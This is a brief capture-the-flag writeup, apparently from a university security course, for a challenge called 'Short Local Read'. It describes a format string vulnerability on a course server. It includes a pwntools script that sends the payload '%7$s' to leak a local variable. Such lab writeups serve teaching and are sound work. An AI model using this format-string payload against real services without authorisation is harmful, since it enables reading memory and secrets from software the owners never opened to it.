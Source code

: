 # Challenge `Short Local Read` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23191
- Impact:
  - Allows user to read local variable

## Steps to reproduce

1. Write `%7$s` to buffer, in order to print the 7th arg after format string

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23191, timeout=100)
s.sendline(b"%7$s")
print(s.recvall())
```